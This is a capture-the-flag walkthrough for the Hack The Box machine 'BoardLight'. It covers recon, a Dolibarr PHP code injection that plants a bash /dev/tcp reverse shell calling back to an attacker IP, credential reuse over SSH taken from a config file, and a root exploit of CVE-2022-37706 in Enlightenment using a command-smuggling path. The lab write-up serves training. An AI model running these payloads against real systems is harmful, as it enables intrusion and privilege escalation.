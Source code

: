 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used**:
  - Default Dolibarr credentials 🆔  
  - PHP code injection via **CVE-2023-30253** 🔓  
  - SSH login with config‐extracted creds 🔑  
  - Local root via **CVE-2022-37706** (Enlightenment WM) 👑  

---

## 🕵️ Recon

```bash
# Fast full-port scan + default scripts
nmap -p- --min-rate 10000 10.10.11.11 -oA nmap/boardlight
nmap -p 22,80 -sC -sV 10.10.11.11 -oA nmap/boardlight-tcp
```

- **SSH** (22)  
- **HTTP** (80) → Apache 2.4.41 on Ubuntu  
- Webroot hosts **Dolibarr v17.0.0** at `crm.board.htb`

```bash
# Directory / subdomain fuzzing
feroxbuster -u http://10.10.11.11 -x php
ffuf -u http://10.10.11.11 -H "Host: FUZZ.board.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all
# → found crm.board.htb
```

---

## 💥 Foothold as www‑data

### 1. Login to Dolibarr CRM

- Browse to http://crm.board.htb/
- **Default creds**: `admin` / `admin`

### 2. Identify PHP injection (CVE-2023-30253)

- Create a new **Website → Page**  
- Save content containing `<?Php phpinfo(); ?>`  
- “Show dynamic content” toggle must be enabled to execute

### 3. Get reverse shell

```php
<?Php
  system('bash -i >& /dev/tcp/10.10.14.6/443 0>&1');
?>
```

- Save & preview → shell lands as `www-data` on port 443  

```bash
# Upgrade shell
script /dev/null -c bash
```

---

## 🐚 Pivot as larissa

### 1. Dolibarr config reveals DB creds

```php
# /var/www/html/crm.board.htb/htdocs/conf/conf.php
$dolibarr_main_db_user = 'dolibarrowner';
$dolibarr_main_db_pass = 'serverfun2$2023!!';
```

### 2. SSH as larissa

```bash
sshpass -p 'serverfun2$2023!!' ssh larissa@board.htb
```

- **User flag**:

```bash
cat ~/user.txt
# cbcdd575************************
```

---

## 🚀 Privilege Escalation to root

### 1. Enumerate SUID binaries

```bash
find / -perm -4000 2>/dev/null | grep enlightenment_sys
# /usr/lib/.../enlightenment_sys (setuid root)
```

### 2. Exploit CVE-2022-37706

```bash
# Prepare payload
mkdir -p /tmp/net "/tmp/;/tmp/pwn"
echo "/bin/bash" > /tmp/pwn
chmod +x /tmp/pwn

# Trigger command injection
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys \
  /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u) \
  "/dev/../tmp/;/tmp/pwn" /tmp/net
```

- Spawns **root** shell:

```bash
root@boardlight:/home/larissa# cat /root/root.txt
# 5f53a104************************
```

---

## 🎉 Results

- **www‑data shell**  
- **larissa flag**: `cbcdd575************************`  
- **root flag**:    `5f53a104************************`  

---

## 🛠 Tools & References

- **SMB & SSH**: `nmap`, `sshpass`, `feroxbuster`, `ffuf`  
- **Dolibarr**: Default creds + page editor  
- **CVE-2023-30253**: PHP injection in Dolibarr → [Swascan writeup](https://swascan.com/blog-dolibarr-vulnerabilities/)  
- **CVE-2022-37706**: Enlightenment WM → [GitHub POC](https://github.com/phra/Enlightenment-CVE-2022-37706-poc)  